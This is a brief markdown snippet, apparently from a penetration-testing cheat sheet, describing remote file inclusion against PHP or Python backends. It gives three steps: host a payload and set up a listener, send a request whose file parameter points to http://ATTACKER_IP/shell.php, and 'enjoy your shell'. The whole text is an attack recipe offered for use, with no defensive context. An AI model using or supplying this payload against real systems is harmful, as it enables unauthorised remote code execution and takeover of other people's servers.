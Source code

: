 ## Allows an attacker to inject external URL in a vulnerable backend PHP/Python/etc. function.

### Example: 

#### 1: Host payload in an http server then setup a listener.

#### 2: http://site.com/index.php?file=http://ATTACKER_IP/shell.php

#### 3: Enjoy your shell!
